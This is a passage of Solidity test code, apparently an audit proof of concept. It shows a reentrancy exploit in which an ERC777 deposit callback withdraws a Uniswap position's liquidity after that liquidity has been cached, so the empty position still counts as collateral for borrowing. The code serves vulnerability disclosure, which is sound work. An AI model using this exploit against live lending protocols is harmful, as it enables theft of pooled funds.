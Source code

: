             //----------            STEP 1            ----------//
            // Open margin account setting pool as new creditor
            vm.startPrank(address(accountOwnerContract));
            proxyAccount.openMarginAccount(address(pool)); 
            
            //----------            STEP 2            ----------//
            // Deposit assets into account. The order of the assets to be deposited is important. The first asset will be an ERC777 token that triggers the callback on transferring.
            // The second asset will be the uniswap position.
    
            address[] memory assetAddresses = new address[](2);
            assetAddresses[0] = address(mockERC20.token777);
            assetAddresses[1] = address(nonfungiblePositionManager);
            uint256[] memory assetIds = new uint256[](2);
            assetIds[0] = 0;
            assetIds[1] = tokenId;
            uint256[] memory assetAmounts = new uint256[](2);
            assetAmounts[0] = 1; // no need to send more than 1 wei as the ERC777 only serves to trigger the callback
            assetAmounts[1] = 1;
            // Set approvals
            IERC721(address(nonfungiblePositionManager)).approve(address(proxyAccount), tokenId);
            mockERC20.token777.approve(address(proxyAccount), type(uint256).max);
    
            // Perform deposit. 
            // Deposit will perform two steps:
            // 1. processDeposit(): this step will handle the deposited assets and verify everything is correct. For uniswap positions, the liquidity in the position
            // will be stored in the `assetToLiquidity` mapping.
            // 2.Transferring the assets: after processing the assets, the actual asset transfers will take place. First, the ER777 colallateral will be transferred. 
            // This will trigger the callback in the accountOwnerContract (the account owner), which will withdraw all the uniswap position liquidity. Because the uniswap 
            // position liquidity has been cached in step 1 (processDeposit()), the protocol will still believe that the uniswap position has some liquidity, when in reality
            // all the liquidity from the position has been withdrawn in the ERC777 `tokensToSend()` callback. 
            proxyAccount.deposit(assetAddresses, assetIds, assetAmounts);
    
            //----------       FINAL ASSERTIONS       ----------//
            // Collateral value fetches the `assetToLiquidity` value cached prior to removing position liquidity. This does not reflect that the position is empty,
            // hence it is possible to borrow with an empty uniswap position.
            uint256 finalCollateralValue = proxyAccount.getCollateralValue();
    
            // Liquidity in the position is 0.
            (
                ,
                ,
                ,
                ,
                ,
                ,
                ,
                uint128 liquidity,
                ,
                ,
                ,
            ) = nonfungiblePositionManager.positions(tokenId); 
    